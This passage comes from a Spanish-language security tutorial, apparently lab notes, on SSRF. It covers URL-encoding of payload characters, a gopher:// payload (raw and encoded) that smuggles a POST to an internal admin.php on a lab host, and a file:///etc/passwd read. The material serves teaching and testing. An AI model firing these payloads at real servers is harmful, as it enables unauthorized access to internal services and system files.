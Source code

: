 | `(` `)` | Paréntesis usados en rutas o datos; mejor codificarlos dentro del payload. | `%28` `%29` |
| `[` `]` | Se usan para literal IPv6 en URLs (`[::1]`). Si aparecen en payloads, se codifican. | `%5B` `%5D` |
| `{` `}` | Muy usadas en JSON; dentro de un body RAW deben codificarse para evitar problemas en la URL. | `%7B` `%7D` |
| `|` (pipe) | Carácter de shell / separación; peligroso si no se codifica (puede usarse en payloads). | `%7C` |
| `\` (backslash) | Escape en algunos entornos; codificar para evitar problemas. | `%5C` |
| `^` (caret) | Carácter raro en protocolos; codificar para seguridad. | `%5E` |
| `~` (tilde) | Permitido en muchas URLs; si dudas codifica. | `%7E` |
| `_` (guion bajo) | Usado en nombres; normalmente no es obligatorio codificar, pero puedes si lo deseas. | `%5F` |
| `$` (dólar) | Usado en comandos o templates; codificar dentro del payload. | `%24` |
| `\t` (tabulación) | A veces útil para pruebas; en HTTP una tab puede romper parsing, codificarla. | `%09` |
| `+ vs %20` | Nota: en **query strings** algunos parsers transforman `+` → espacio; en **paths/payloads** usa `%20`. | — |

---

##### Ejemplo

```
gopher://dateserver.htb:80/_POST /admin.php HTTP/1.1
Host: dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

adminpw=admin


codificado: gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin

```

> Se recomienda la herramienta: [Gopherus](https://github.com/tarunkant/Gopherus).



#### Local File Inclusion

Existe la posibilidad de intentar leer archivos locales del sistema utilizando ```file://``` manipulando de esta forma el esquema de URL.

```
file:///etc/passwd
```

[![ssrf9](/images/ssrf9.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssrf9.png)
